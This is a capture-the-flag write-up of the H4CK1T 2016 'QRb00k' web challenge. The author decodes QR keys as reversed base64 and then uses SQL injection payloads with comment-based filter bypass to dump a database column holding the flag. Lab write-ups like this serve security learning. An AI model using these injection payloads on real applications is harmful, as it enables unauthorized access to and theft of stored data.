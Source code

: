 ```yaml
---
title: '[H4CK1T 2016] QRb00k – Russia Writeup'
author: Megabeets
type: post
date: 2016-10-03T00:35:37+00:00
url: /h4ck1t-2016-qrb00k-russia-writeup/
categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: QRb00k &#8211; Russia &#8211; W3b &#8211; 400**  
> <span style="font-weight: 400;">The secured messenger was developed in Canada, it&#8217;s using systems with qr keys for communicating, it allows to read other people&#8217;s messages only to this key holders. But is it true? And you have to figure it out &#8230;</span>  
> [<span style="font-weight: 400;">http://hack-quest.com</span>][1]

This was a very good web challenge. It took me quite a time to fully understand it but was absolutely worth of its 400 points.

Starting the challenge we are given with a messenger site that uses QR codes to communicate. The site has two main pages:

  * Create &#8211; which creates QR code from a given name and message
  * Read &#8211; an upload form to upload QR code and read the message inside

So let&#8217;s create a message:

<img src="../uploads/h4ck1t_russia_1.png" /> 

We got a QR code which is the key to read our message:

<img src="../uploads/h4ck1t_russia_2-279x300.png" /> 

Now let&#8217;s read the message using the QR code:

<img src="../uploads/h4ck1t_russia_3-271x300.png" /> 

&nbsp;

Ok, it all worked as it supposed to. I used the [zxing][2] service to view the content of the QR code:

<img src="../uploads/h4ck1t_russia_4.png" /> 

Look at the raw text. It&#8217;s a short string that looks like it was base64 encoded. But wait, base64 can&#8217;t begin with &#8220;==&#8221;! Those characters usually appear at the end of base64 encoded strings. Is it reversed? Let&#8217;s check:

```python
&gt;&gt;&gt; "==QehRXS"[::-1].decode('base64')
'Itay'
```


Yes! it indeed was reversed. our key (QR code) is created by: QR(Reverse(Base64(name))).

Ok, now that we understand the mechanics we can let the party begin and start playing with SQL Injection. In order to create the QR codes I used [this][3] site, It was faster than using the challenge site.

I began with the obvious: &#8216; or 1=1&#8211;

<img src="../uploads/h4ck1t_russia_5.png" /> 

Whoops, Busted. The system recognized my SQLi attack. I tried some filter bypassing methods and succeeded with this input:

```mysql
'/*..*/union/*..*/select/*..*/database()/*..*/union/*..*/select/*..*/'Megabeets
```


<span style="font-size: 8pt;">Reverse(Base64(input)) == &#8220;==wc0VWZiF2Zl10JvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8SKoU2chJWY0FGZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

<img src="../uploads/h4ck1t_russia_6-1024x478.png" /> 

It worked! now let&#8217;s find the correct table (&#8220;messages&#8221;) and column by using some queries to map the database:

<span style="font-size: 8pt;">QR(Reverse(Base64(input))) == &#8220;zRXZlJWYnVWTn8iKu4iKvQ3YlxWZz9iKu4iKv42bp5WdvoiLuoyLnMXZnF2czVWbn8iKu4iKvU2apx2Lq4iLq8SZtFmbfVGbiFGdvoiLuoyLlJXZod3Lq4iLq8ycu1Wds92YuEWblh2Yz9lbvlGdh1mcvZmbp9iKu4iKv02byZ2Lq4iLq8SKl1WYu9lbtVHbvNGK0F2Yu92YfBXdvJ3ZvoiLuoyL0NWZsV2cvoiLuoyLu9WauV3Lq4iLq8yJ&#8221;</span>

```mysql
'/*..*/union/*..*/select/*..*/group_concat(column_name)/*..*/from/*..*/information_schema.columns/*..*/where/*..*/table_name/*..*/like/*..*/'messages'/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="../uploads/h4ck1t_russia_7-1024x679.png" /> 

&#8220;secret_field&#8221;? Sounds suspicious. Let&#8217;s query it and see what it contains:

```mysql
'/*..*/union/*..*/select/*..*/secret_field/*..*/from/*..*/messages/*..*/union/*..*/select/*..*/'Megabeets
```


<img src="../uploads/h4ck1t_russia_8-1024x744.png" /> 

And we got the flag! I honestly really enjoyed this challenge.

**Flag: **_h4ck1t{I\_h@ck3d\_qR_m3Ss@g3r}_

&nbsp;

If you have any questions feel free to ask 🙂

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://hack-quest.com/
 [2]: https://zxing.org/w/decode.jspx
 [3]: https://www.the-qrcode-generator.com/